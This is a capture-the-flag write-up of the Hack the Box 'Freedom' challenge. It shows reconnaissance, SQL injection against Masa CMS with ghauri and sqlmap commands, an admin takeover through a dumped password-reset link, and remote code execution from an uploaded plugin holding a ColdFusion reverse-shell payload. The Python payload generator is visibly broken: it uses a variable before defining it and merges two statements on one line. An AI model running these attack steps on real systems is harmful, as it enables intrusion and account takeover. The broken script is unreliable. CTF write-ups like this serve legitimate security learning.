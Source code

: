Freedom is the second of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

## Table of contents : 
- [Reconnaissance](#reconnaissance) 
- [SQLi](#sqli) 
- [Remote code execution](#rce) 

## Reconnaissance

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 16:01 CET
Nmap scan report for freedom.htb (10.129.242.128)
Host is up (0.044s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Since this machine appeared to be a windows host and more specifically a DC and we don’t have any credentials on the AD let’s try to see if we can grab anything using default accounts like Guest or anonymous :
```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "" -p "" --shares
SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [+] freedom.htb\: 
SMB         10.129.242.128  445    DC1              [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "guest" -p "" --shares

SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [-] freedom.htb\guest: STATUS_ACCOUNT_DISABLED 
```

Unfortunately this wasn’t very successful, same for enum4linux.

In our initial nmap scan we could see that the port 80 was open so let’s check it out. We realised it was cms running which was called “Masa CMS” and found several endpoints corresponding to an API : [http://freedom.htb/index.cfm/_api/json/v1/default/](http://freedom.htb/index.cfm/_api/json/v1/default/)

![Masa CMS API](/HTB-UNIV/2024/images/api_masa.png)

The website was essentially a blog with a search functionality that allowed us to filter the articles being posted there. We tried several payloads in order to get an xss or even a ssti but nothing successful.  

Checking out the robots.txt file we found this : 

```
User-agent: *
Crawl-Delay: 5
Disallow: /admin/
Disallow: /core/
Disallow: /modules/
Disallow: /config/
Disallow: /themes/
Disallow: /plugins/
```

And visiting the /admin endpoint redirected us to the login page of the CMS : `[http://freedom.htb/admin/?muraAction=clogin.main](http://freedom.htb/admin/?muraAction=clogin.main)`

![Masa CMS Login](/HTB-UNIV/2024/images/login_masa_cms.png)

No default or weak credentials turned out to work unfortunately so let’s dig deeper. 
Playing around with several requests and looking at the answers on burp we managed to pinpoint the exact version of the CMS : Masa CMS 7.4.5
  ![Masa CMS version](/HTB-UNIV/2024/images/masa_cms_version.png)
## SQLi

After a bit of research we found out that this version of Masa CMS was vulnerable to an SQLi : [https://projectdiscovery.io/blog/hacking-apple-with-sql-injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection)

Let's verify if our instance is indeed vulnerable : 

`http://freedom.htb/index.cfm//_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'&previewID=x`

![Masa CMS version](/HTB-UNIV/2024/images/masa_sql_error.png)

After searching for masa cms sqli we found a POC for this CVE :
  
[https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS)
  
After debugging and modifying a bit the script since it did not work for us on the first time we managed to use this payload :  
  
`ghauri -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C&previewID=x" -p contenthistid --dbs --current-db`

```
available databases [5]:
[] sys
[] performance_schema
[] information_schema
[] dbMasaCMS
[*] mysql
```

We dumped the DB and found an interesting table containing several users and their info -> including bcrypt password hashes but we were unable to crack them.

We then decided to change our approach by resetting the administrator password using the “forgot password button” and dumping the reset token in the db. 

![Reset admin pwd](/HTB-UNIV/2024/images/rest_admin_pwd.png)

At first we were unsuccessful at this and since the CMS is open source our idea was to reverse engineer the method responsible to generate forgotten password tokens : 

```
<cfset returnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#"> 

<cfelse>
<cfsetreturnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#">
```

Using infos found in the dumped db we managed to get close to a valid reset link : 

`http://freedom.htb/index.cfm/75296552-E0A8-4539-B1A46C806D767072/22FC551F-FABE-EA01-C6EDD0885DDC1682/?userID=75296552-E0A8-4539-B1A46C806D767072`

But it was flagged as `invalid or incorrect reset link`. Around the same time, a 
teammate managed to dump the link directly in the db using sqlmap :
`
`sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'*&previewID=x" -p contenthistid --search -C "url" --batch`

`http://freedom.htb/?display=editProfile&returnID=E7EAB9CD-78D7-4EBB-A3FA718298F0CF15&returnUserID=75296552-E0A8-4539-B1A46C806D767072`

![Token db](/HTB-UNIV/2024/images/token_db.png)

We can then reset the admin password to "admin" for exemple and login on the CMS.

## RCE  

Looking around the administration page, we found an interesting feature : 
 ![Upload plugin](/HTB-UNIV/2024/images/upload_plugin.png)
While searching for plugin examples we stumbled accross this repository : https://github.com/MasaCMS/MasaAuthenticator

After spending quite some time analysing its source code and testing several payloads / uploading them on the CMS, we managed to get a remote code execution by modifying the following file : `config.xml.cfm`

Initially we used this tool [https://github.com/Impenetrable/ReverseFusion/tree/master](https://github.com/Impenetrable/ReverseFusion/tree/master "https://github.com/Impenetrable/ReverseFusion/tree/master")
to generate a reverse shell payload embedded into the .cfm file since we thought the target machine was a windows host (the DC). 

However while testing out our RCE payload, we got an error indicating it couldn't find cmd.exe and showed us clear sign of a linux host ( -> Absolute path like "/var/www/html")

Let's modify the script to get a working RCE : 

```
import sys 

ip = input("Enter attacking IP address: ")
port = int(input("Enter attacking port number: "))
filename = input("Enter output file name: ")

payload = f"arguments=\"-c {payload}\"" 

with open( filename+".cfm", "w+") as f: 
	f.write("<cfexecute name=\"/bin/bash\"\r") 
	f.write(payload+"\r") f.write("variable=\"data\"\r") 
	f.write("timeout=\"10\" />\r") 
	f.write("<cfdump var=\"#data#\">")

```

We zipped the whole plugin again with our malicious : `config.xml.cfm`
 ![Payload](/HTB-UNIV/2024/images/malicious_payload.png)
And uploaded it onto the CMS : 

![Zip exploit](/HTB-UNIV/2024/images/exploitzip.png)

Now to trigger our payload we just clicked on "Deploy" and we got our shell : 

![Reverse shell](/HTB-UNIV/2024/images/reverse_shell.png)

We get a shell on the wsl running on the windows host, but the whole C drive is mounted and we are root! A simple grep and we got both the user and the root flag at the same time! Our solve was completely unintended as the actual solve was mostly AD related (kerberoasting / asrep roasting / kerbrute..).

